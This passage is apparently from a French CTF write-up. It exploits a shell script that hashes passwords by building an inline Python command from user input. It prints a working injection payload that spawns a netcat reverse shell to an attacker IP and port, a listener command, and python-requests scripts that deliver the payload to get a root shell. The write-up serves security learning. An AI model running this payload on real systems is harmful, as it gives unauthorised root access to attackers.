 On se retrouve donc face à un script plutôt... Sale. Mais intéréssant !

En effet, le script va :

- Récupérer notre couple username / password et les mettre dans des variables
- Extraire dans le fichier shadow le hash du mot de passe de l'utilisateur
- Lancer du python en ligne de commande qui va hasher notre mot de passe et comparer son hash avec celui récupéré

Les variables étant passées en ligne de commande pour le python, s'il y a des quotes elles seront interprétées. On a donc ici notre injection sur la variable __$PASSWORD__. Il faudra :

- Ouvrir une quote
- Compléter la fonction _crypt.crypt()_ pour éviter une erreur
- Ajouter le code que l'on veut executer
- Commenter le reste du code python

On se trouve avec une payload comme suit :

```
','');import os;os.system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f')#
```

Et pour faire ma requête, afin de ne pas m'embêter avec le basic-auth, je vais utiliser python-requests.

J'ouvre donc un listener :

```bash
nc -nlvp 51338
```



```python
import requests
r = requests.get("http://localhost:3000/ping", 
                 data={}, 
                 auth=("root","','');import os;os.system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f')#")
                )
```

Malheureusement, cette première requête n'a pas fonctionné... Je fais donc d'autre test en remplaçant le user __root__ par __web-dev__

```python
import requests
r = requests.get("http://localhost:3000/ping",
                 data={},
                 auth=("web-dev","','');import os;os.system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.17.0.1 51338 >/tmp/f')#")
                )
```

Et on obtient bien un shell root. On repète notre petite liste de commandes pour obtenir notre shell interactif puis on va lire le flag.

```bash
$ cd 
$ cat flag
ENSIBS{JesappelleRoot}
```
